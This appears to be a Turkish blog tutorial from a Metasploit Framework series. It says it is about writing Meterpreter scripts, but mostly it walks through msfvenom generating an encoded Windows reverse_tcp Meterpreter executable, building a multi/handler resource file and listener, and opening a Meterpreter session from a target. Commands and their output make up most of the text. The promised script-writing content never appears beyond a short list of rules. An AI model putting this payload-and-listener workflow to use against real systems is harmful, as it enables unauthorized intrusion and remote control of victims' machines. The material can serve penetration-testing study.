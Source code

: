 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Yazma'
date: '2017-06-14T13:47:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim. 
Tüm Windows sürümleri aynı değildir. 
Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar. 
Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler. 
Script yazarken Windows sürümüne özel davranmanız gerekebilir." 
 
url:  /tr/msf-meterpreter-script-yazma/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim.


* 
* Tüm Windows sürümleri aynı değildir.

* Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar.

* Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler.

* Script yazarken Windows sürümüne özel davranmanız gerekebilir.




Yukarıda belirtilen kuralları göz önünde bulundurarak, hedefe özel script yazmak gerekmektedir. Bu durumda yazacağımız script doğru çalışabilir.



Şimdi, aşağıdaki komut ile çalıştırılabilir bir .exe dosyası oluşturalım. Bu program, hedef sistemde çalışacak ve yerel bilgisayarımıza reverse bağlantı açacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST**=**192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```



Gerekli .exe dosyamız oluşturuldu. Bu dosya hedef windows işletim sistemi içinde çalışacak ve yerel bilgisayara iletişim sağlayacaktır. O zaman bizim yerel bilgisayarda dinleyici oluşturmamız gerekmektedir. Dinleyicimizi oluşturalım.


```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler **&gt;&gt;** meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp **&gt;&gt;** meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 **&gt;&gt;** meterpreter.rc
root@kali:~# echo set ExitOnSession false **&gt;&gt;** meterpreter.rc
root@kali:~# echo exploit -j -z **&gt;&gt;** meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```



Dikkat ederseniz komutlarla, multi handler modülünü dinleyici olarak ayarladık. Payload modülü olarak reverse_tcp modülü kulandık. Yerel IP adresi olarak 192.168.1.184 ayarladık.



Yeni yazdığımız scriptleri `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edersek, kolayca kullanabiliriz.



Şimdi yapmamız gereken, `msfconsole` programını yeni oluşturduğumuz `meterpreter.rc` dosyasını kaynak göstererek başlatmak.


```bash
root@kali:~# msfconsole -r meterpreter.rc

       **=[** metasploit v4.8.2-2014021901 **[**core:4.8 api:1.0] **]**
+ -- --**=[** 1265 exploits - 695 auxiliary - 202 post **]**
+ -- --**=[** 330 payloads - 32 encoders - 8 nops      **]**

resource&gt; use exploit/multi/handler
resource&gt; set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=&gt;** windows/meterpreter/reverse_tcp
resource&gt; set LHOST 192.168.1.184
LHOST **=&gt;** 192.168.1.184
resource&gt; set ExitOnSession false
ExitOnSession **=&gt;** false
resource&gt; exploit -j -z
**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
```



Yukarıda gördüğünüz gibi Metasploit Framework dinleme yaparak başlamıştır. Artık, oluşturduğumuz .exe dosyasını Windows içerisinde çalıştırdığımızda, oturum aktif hale gelecektir.


```bash
**[*********]** Sending stage **(**718336 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.1.158:4444 -&gt; 192.168.1.104:1043**)**

msf exploit**(**handler**)** **&gt;** sessions -i 1
**[*********]** Starting interaction with 1...

meterpreter **&gt;**```
